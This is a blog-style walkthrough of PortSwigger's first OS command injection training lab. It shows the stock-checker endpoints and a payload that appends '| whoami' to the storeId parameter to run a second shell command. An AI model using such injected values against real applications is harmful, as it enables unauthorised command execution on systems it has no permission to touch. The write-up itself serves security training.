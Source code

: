 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Lab 1"
date:   2024-07-07 18:20
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection]
categories: [PortSwigger]
---
```


# Lab 1 - OS Command Injection - Simple Case
>Lab Objective:
This lab contains an OS command injection vulnerability in the product stock checker.
The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection/lab-simple">Port Swigger - Lab 1</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308204">Rana Khalil - Lab 1</a>
<br/>



### Solution
<hr/>

#### 1. Take note of all possible endpoint calls that accepts user input from the UI:

```
GET /product?productId=1
```
```
POST /product/stock 
body: productId=1&storeId=1
```

#### 2. Append | whoami to POST  /product/stock    storeId parameter

```
product=1&storeId = 1 | whoami
```
![Command Injection - Lab 1 - Response](/images/portswigger/CommandInjection/command_injection_lab_1_response)

<hr/>